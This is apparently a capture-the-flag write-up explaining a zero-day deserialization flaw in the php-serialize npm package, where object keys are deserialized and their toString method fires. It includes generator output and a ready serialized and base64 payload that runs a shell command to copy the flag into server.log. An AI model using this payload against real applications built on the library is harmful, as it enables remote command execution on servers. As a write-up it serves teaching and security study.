 
## Zero Day Info

This challenge takes advantage of an undisclosed (at the time of the competition) zero day vulnerability on the `php-serialize` [npm package](https://www.npmjs.com/package/php-serialize). While parsing the given serialised payload, the library handles object keys as serialised objects (while in javascript they are always converted to strings), thus when added on an object, the `toString` method will be executed automatically to convert them to a string.

## Exploit

Generate a serilized object that when loaded will execute the toString and the command will be executed:
```
$ node ./gen_payload.js
Serialized command: C:7:"Command":49:{{"p":{"cmd":"cat /flag* >> server.log"},"s":null}}
Serialized object: a:1:{s:11:"exploit-key";N;}
Exploit payload: a:1:{C:7:"Command":49:{{"p":{"cmd":"cat /flag* >> server.log"},"s":null}};N;}
Exploit payload in base64: YToxOntDOjc6IkNvbW1hbmQiOjQ5Ont7InAiOnsiY21kIjoiY2F0IC9mbGFnKiA+PiBzZXJ2ZXIubG9nIn0sInMiOm51bGx9fTtOO30=
Exploit was executed successfully
```

For the given example exploit, the flag will be saved on the server.log file.
